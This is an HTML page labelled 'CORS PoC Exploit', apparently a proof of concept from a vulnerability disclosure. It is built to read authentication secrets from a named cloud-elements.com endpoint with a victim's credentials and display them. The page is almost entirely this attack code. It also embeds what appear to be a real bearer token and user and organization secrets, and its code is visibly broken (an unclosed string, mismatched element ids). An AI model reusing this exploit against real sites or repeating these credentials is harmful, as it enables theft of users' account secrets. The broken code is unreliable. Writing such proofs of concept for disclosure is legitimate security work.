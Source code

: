 <html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://snapshot.cloud-elements.com/elements/authentication/secrets", true);
         xhttp.withCredentials = true;
         xhttp.setRequestHeader("Authorization", "Bearer AyyF6sBuFp8w/OH30wHYBs1rGgPoGakwqLBY/maGPaT8IS5siPWREaHdajpYkNeWeYAKxRUi2h5L/Fw3DcCwIQokYEm/5FA+fw0TN8lQq9t1fo1EGHwLzR3HsS9pRHtjgczSfIV/+cdg/T8SWAR+mZYBwUeOIl/RpXqBFWGdKLZlXOkS7b8pU/XmI+GwQw2Q0OdtDMSRSVE2zMLkb5JcIZNedzxRSWtdUzGSb85vZV/+TfBoFFLHFXW3VmzW5Et0Xb+ASqKT53lK7tfMlASr/wuPcTwhq6UEgkmKaZ2xxYKqduMcU6CcHf+fW1SU//+2UfbNRm43BhN+pO0x8xiAXDl78+/DHj8SlV5ZCXZCCbkbtBiDdLMq387bjE6Gf6wX6OkDs6U92ajnmnR1+6rXPpAjwIerx8h73sdIBOvWPuyI , User +n6EjxRrIEgjlclo2l9eIWycrZJDh3WUJ3D1h7kBHVA=, Organization 30b8a3c9ab8763733cfdf651bf701a24);
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS PoC Exploit </h2>
      <h3>Show full content of page</h3>
      <div id="demo">
         <button type="button" onclick="cors()">Exploit</button>
      </div>
   </body>
</html>
